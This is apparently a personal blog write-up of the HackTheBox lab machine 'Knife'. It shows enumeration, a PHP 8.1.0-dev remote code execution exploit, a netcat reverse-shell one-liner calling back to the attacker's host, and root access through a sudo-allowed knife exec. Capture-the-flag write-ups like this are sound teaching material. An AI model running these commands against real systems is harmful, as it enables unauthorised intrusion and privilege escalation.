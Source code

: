 ```yaml
---
title: "HackTheBox - Knife"
author: Nasrallah
description: ""
date: 2022-02-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, cve, sudo]
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Knife](https://app.hackthebox.com/machines/347) from [HackTheBox](https://hackthebox.com), it's an easy machine where we find a vulnerable version of php running, use an exploit for that to gain access to the machine, after that, we exploit a binary that we can run as root to gain privileged access.

# **Enumeration**

## nmap

As usual, let's run a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressice scan to provide faster results.

```terminal
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 15:44 EST
Nmap scan report for 10.10.10.242
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap shows that the machine has 2 open ports: 22(SSH) and 80(HTTP).

## HTTP

Let's navigate to the webpage.

![home](/assets/img/hackthebox/machines/knife/home.png)

It looks like we have an Emergent Medical Idea application, but there is nothing interesting.

## Gobuster

Let's scan for directories and files using `Gobuster`.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.242                                 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/31 15:50:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]

===============================================================
```

Nothing interesting here too.

## wappalyzer

Let's check the web page with Wappalyzer***(Wappalyzer is a browser extension that uncovers the technologies used on websites. It detects content management systems, eCommerce platforms, web servers, JavaScript frameworks, analytics tools and many more.)***

![wapp](/assets/img/hackthebox/machines/knife/wapp.png)

Let's google these technologies and see if we can find any vulnerability.

![cve](/assets/img/hackthebox/machines/knife/cve.png)

We found that `php 8.1.0-dev` has a Remote Code Execution vulnerability, let's download an exploit and see what we can do.

# **Foothold**

Let's run the exploit now.

```terminal
$ python3 php_exploit.py           
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

```

Great! we got a shell as **james**, but this is not a functional shell, let's get one by executing a reverse shell command than sends us james shell.

```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

>Note: Change the ip address in the command to yours and set up a listener before executing the command!

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001                                                                                                                                        1 ⨯
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.242] 41496
bash: cannot set terminal process group (1006): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

james@knife:/$
```

Now we have a fully functional shell.

# **Privilege Escalation**

Let's check what can we run as root.

```terminal
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

We can run `knife` as root. We google knife binary and we find this [Documentation](https://docs.chef.io/workstation/knife/). When we look at the subcommands we see `exec`.

![exec](/assets/img/hackthebox/machines/knife/exec.png)

With `exec` sub command, we can run ruby scripts. and with our ability to run knife as root, we can give it a ruby script that drops us a root shell.`exec "/bin/bash"`

```terminal
james@knife:~$ sudo knife exec
An interactive shell is opened

Type your script and do:

1. To run the script, use 'Ctrl D'
2. To exit, use 'Ctrl/Shift C'

Type here a script...
exec "/bin/bash"
root@knife:/home/james# whoami
root
root@knife:/home/james#
```

Great! We became root now.

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
